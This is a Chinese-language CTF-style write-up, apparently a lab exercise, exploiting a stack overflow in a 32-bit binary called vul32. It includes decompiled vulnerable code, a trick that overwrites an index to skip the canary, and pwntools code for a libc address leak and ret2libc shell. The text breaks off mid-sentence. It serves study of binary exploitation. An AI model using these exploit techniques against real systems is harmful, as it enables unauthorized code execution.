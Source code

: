 # vul32攻击记录

## 32-bit机器

1字节（byte）= 8 bit
16进制数（0xa）= 4 bit 
16进制数（0xaa）= 8 bit

char = 1 byte
int = 4 byte
32位内存空间 = 4 byte

## 分析

首先看下`vul32`的安全保护：
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## 返回地址覆盖

main函数栈：
```
$ebp: 0xffffd108
$esp: 0xffffd104
```

dovuln函数栈：
```
$ebp: 0xffffd0f8
$esp: 0xffffd0b0
```

dovuln()反汇编结果如下，存在漏洞的函数是read()。read()每次向buf中读取1字节，之后填入v3对应的位置，则我们利用v3进行栈溢出。
v3与ebp相距0x43，则v3[43]对应的栈处为ebp，高于ebp 4字节处即为返回地址。即我们应该将跳转地址写入v3[47]，参考dovuln()代码可知，我们将v4的值覆盖为0x47，ASCII对应为'G'。

```
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```

注意到v4低于ebp 0x10，v3低于ebp 0x43，则v4高于v3[0] 0x33。则我们首先填写0x33个'a'，随后覆盖v4为'G'。首先构造一个输入，观察返回地址是否被正确覆盖：




## system, /bin/sh地址获取

利用ROPgadget搜索发现，libc库中有`/bin/sh/`可用，因此我们只能调`libc`中的函数来获取shell。

```
$ ROPgadget --binary libc.so.6 --string '/bin/sh'
Strings information
============================================================
0x0015912b : /bin/sh
```

由于我们已经知道了vul32使用的`libc`版本，也就是我们已经知道了函数的偏移量。因此我们只需要求基地址，这里我们泄露`__libc_start_main`的地址，并利用`write()`输出：
```
libc = ELF('./libc.so.6')
vul32 = ELF('./vul32')

write_plt = vul32.plt['write']
libc_start_main_got = vul32.got['__libc_start_main']
main = vul32.symbols['main']

payload = flat(['A' * 0x33, 'G', write_plt, main, p32(1), libc_start_main_got, p32(4)])
sh.sendlineafter('Can you find it !?', payload)
```

获取`__libc_start_main`的地址，计算基地址，并获取`system`和`/bin/sh`的真实地址：
```
libc_start_main_addr = u32(sh.recv()[0:4])
libcbase = libc_start_main_addr - libc.sym['__libc_start_main']

system_addr = libcbase + libc.sym['system']
binsh_addr = libcbase + libc.sym['str_bin_sh']
```

重新获取